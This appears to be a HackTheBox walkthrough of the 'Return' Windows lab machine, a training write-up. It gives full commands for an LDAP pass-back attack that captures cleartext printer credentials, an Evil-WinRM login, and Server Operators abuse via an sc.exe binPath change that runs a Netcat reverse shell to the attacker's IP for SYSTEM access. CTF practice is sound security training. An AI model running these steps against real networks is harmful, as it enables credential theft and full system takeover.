

# Return — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Windows

---

## TL;DR

Access to a printer administration panel via HTTP allows modifying the LDAP server setting to point to our attacking machine → Setting up Responder captures cleartext LDAP credentials for the `svc-printer` account → Connecting via WinRM reveals `svc-printer` is a member of the `Server Operators` group → Abusing `Server Operators` privileges to stop, modify the `binPath` of the `VSS` service to execute a Netcat reverse shell, and restart the service yields `SYSTEM` access.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.11.108
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | Microsoft IIS httpd 10.0 |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP (Domain: return.local) |
| 445 | SMB | microsoft-ds |
| 464 | kpasswd | kpasswd5 |
| 593 | RPC over HTTP| Microsoft Windows RPC over HTTP 1.0 |
| 636 | LDAP (SSL)| tcpwrapped |
| 3268 | Global Cat.| Microsoft Windows AD LDAP |
| 3269 | Global Cat.| tcpwrapped |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |

The host is a Windows Server functioning as a Domain Controller for `return.local`. 

Port 80 hosts a web application titled "HTB Printer Admin Panel". We add `return.local` and `printer.return.local` to our `/etc/hosts` file.

---

## Exploitation — LDAP Pass-Back Authentication

Browsing to the web application on port 80 brings us to the settings page of a network printer interface. 



Investigating the "Settings" tab reveals configuration parameters for LDAP integration, which allows the printer to look up users in Active Directory. Specifically, there is an input field for the "Server Address" which is currently pointing to `printer.return.local`. 

We can modify this Server Address to point back to our attacking machine, forcing the printer to authenticate to our server instead of the actual Domain Controller!

Before clicking "Update", we start Responder on our attacking machine in Analyze mode or standard mode, ensuring the LDAP server module is active:

```bash
sudo responder -I tun0 -A
```

We change the "Server Address" on the webpage to our VPN IP (e.g., `10.10.14.32`) and click "Update".

Because LDAP can be configured natively without encryption, Responder catches the outgoing connection and extracts the credentials the printer attempted to use, in **cleartext**:

```text
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have valid domain credentials: `svc-printer : 1edFg43012!!`.

Because port 5985 is open, we can authenticate directly to the machine using Evil-WinRM:

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

We have local user access.

---

## Privilege Escalation — Server Operators Abuse

Once logged in via WinRM, we check our user context and group memberships (`whoami /groups`). 

We discover that the `svc-printer` account is a member of the built-in  **Server Operators** Active Directory group. 

Members of the Server Operators group hold significant administrative power over Domain Controllers. Crucially, they are granted permission to stop, start, and modify the configuration of system services. Since system services run as `NT AUTHORITY\SYSTEM`, modifying a service to execute our payload is a direct path to root.

We upload a Windows binary of Netcat (`nc.exe`) to our current user's documents folder via the Evil-WinRM upload command:
`upload /usr/share/windows-resources/binaries/nc.exe C:\Users\svc-printer\Documents\nc.exe`

Next, we identify a service we can modify. The Volume Shadow Copy service (`VSS`) is a common target because it is rarely critical enough to cause immediate system instability if briefly stopped.

We use the Service Control utility (`sc.exe`) to reconfigure the `VSS` service. We modify its `binPath` to point to our uploaded `nc.exe` binary and instruct it to shovel a reverse shell back to our attacking machine on port 1234.

```cmd
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.14.32 1234 -e cmd.exe"
```

*Note: Ensure spacing is exact when dealing with `sc.exe`, specifically the space after `binPath=` is NOT required in modern Windows, but trailing spaces after options ARE.*

We start a Netcat listener on port 1234.

We stop the service (if it is currently running), and then restart it to execute our new binary path:

```cmd
sc.exe stop vss
sc.exe start vss
```

The service attempts to start, executes our Netcat payload, and hangs (or times out), but the connection is made! Our Netcat listener catches the incoming shell.

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Pass-Back Attacks:** Network appliances (printers, scanners, ILO/iDRAC interfaces) often store privileged Active Directory service credentials to perform LDAP lookups or SMB file shares. Modifying the target server address to point to an attacker-controlled machine forces the appliance to hand over those credentials.
- **Cleartext Authentication:** The printer software transmitted the credentials via unencrypted LDAP (port 389) rather than LDAPS (port 636), making interception trivial.
- **Server Operators:** The Server Operators group is almost functionally equivalent to Domain Admins due to their ability to manipulate services. Service binary paths (`binPath`) should be heavily restricted and monitored.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*